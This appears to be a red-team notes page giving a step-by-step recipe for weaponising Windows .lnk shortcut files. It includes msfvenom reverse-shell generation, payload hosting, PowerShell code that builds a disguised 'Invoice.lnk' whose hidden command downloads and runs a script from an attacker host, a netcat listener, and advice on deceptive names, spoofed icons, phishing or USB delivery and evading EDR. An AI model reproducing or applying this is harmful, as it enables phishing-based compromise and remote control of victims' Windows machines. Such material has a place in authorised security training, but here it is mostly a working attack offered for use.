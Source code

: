 # LNK (Shortcut) Files

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows
**Prerequisites:**  user must click on the malicious shortcut file


---
## Overview

  This technique leverages Windows `.lnk` files (shortcuts) to execute malicious commands or payloads when a user clicks on the shortcut. It’s especially effective in phishing or USB drop scenarios where the file appears benign.


---
## How It Works

**LNK Files** Also known as a "link" file, the Windows Shortcut File (LNK) is a Windows proprietary format specification that allows users to create a graphical **pointer** to a file,
command, network share, etc...
LNK files are usually created automatically in the "recent files" or "quick access"
section of the Windows Explorer. They can also be created on demand by right
clicking a file and selecting "create shortcut"

As mentioned above, shortcut files are really just pointers to another resource. This
makes it very easy to use LNK files to :
- run specific cmd.exe commands
- run a PowerShell ‘one-liner’
- execute hidden files in a directory.

Another attribute of shortcut files is that even with “Hide Extensions for Known File
Types” disabled, shortcut files never show the “.lnk” extension. This can ease phishing
attacks as the shortcut and the actual file are almost identical in appearance.

 The malicious logic is hidden in the shortcut’s **target** path or embedded scripts. 
 Execution can occur without any visual clue to the user.

![[shortcut.png]]


---
## Prerequisites

- Target OS: Windows
- User Interaction: Yes (user must click the shortcut)
- Network Connectivity: Often required (for downloading payloads)
- Dependencies or Tools:
    - Windows machine (to craft the malicious shortcut file)
   

---
## Steps to Implement

1. **Prepare Your Payload**
i tend to use a simple `.ps1` powershell reverse-shell payload. you can use **metasploit**  for this step. 

2. **Host the payload** 
use :
```shell
python3 -m http.server 80
```
3. **Create the Malicious Shortcut**
 you can craft the shortcut manually with the GUI :

1 - Create a new shortcut by Right click then click **New** > **Shortcut** 
![[create-shortcut-s1.png]]

2 - then edit the properties of the shortcut and Customize Appearance: 
![[create-shortcut-s2.png]]

![[create-shortcut-s3.png]]

![[create-shortcut-s4.png]]

![[create-shortcut-s5.png]]

set "Run:" to **Minimized**, for stealth .
![[create-shortcut-s6.png]]

change the icon.
![[create-shortcut-s7.png]]

embed the command you want to execute ( stager ) in the **Target** field.
![[create-shortcut-s8.png]]
then click **apply** and **ok**


or create the shortcut using a powershell script :
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\Invoice.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/bare.ps1')"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"
$Shortcut.Save()
```


4. **Deliver to the Target**
  - Phishing email
  - USB drop
  - Shared folder / drive
  
5.  **Set Up Listener**
- make sure the listener is up and running ( listening for incoming connection )
 ```shell
 nc -nlvp 9001
```

6. **Execution**
- When the user clicks the `.lnk` file, the command runs silently and retrieves our payload and executes it, resulting in a reverse shell being established.

![[pwnd.png]]

---

## Payload/Code Snippets

- **generate a payload using `powervoodoo`** 
```shell
# Example using powervoodoo to generate a reverse shell payload 
./powervoodoo.sh lhost=<host> lport=<port> os=windows
```

- **generate a payload using `msfvenom`** 
```shell
msfvenom -p windows/powershell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh -o shell.ps1

```

- **One liner payload to embed within the shortcut file**
```shell
C:\Windows\System32\cmd.exe /c powershel -c "Start-Process notepad.exe ; powershell -w 1 -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://127.0.0.1:8000/payload.ps1)\" "
```

- **create a malicious shortcut file using powershell** 
```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\Invoice.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/bare.ps1')"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,3"
$Shortcut.Save()
```


---
## Tips

- Use misleading filenames like `Invoice.lnk` or `HR_Policy_Update.lnk`.
- Customize icons to mimic trusted applications (e.g., Word, PDF, Excel).
- Combine with an autorun or USB drop for physical delivery.
- Some EDRs detect `.lnk` anomalies, test carefully in a lab before deployment.


---
## References

-  [Using LNK Files for Initial Infection](https://www.cybereason.com/blog/threat-analysis-taking-shortcuts-using-lnk-files-for-initial-infection-and-persistence)
- [john hammond YOUTUBE](https://youtu.be/RLtMxN5q_cQ?si=xnKBzQ7-5-79V2mq)


---

***Author*** : **o-sec**
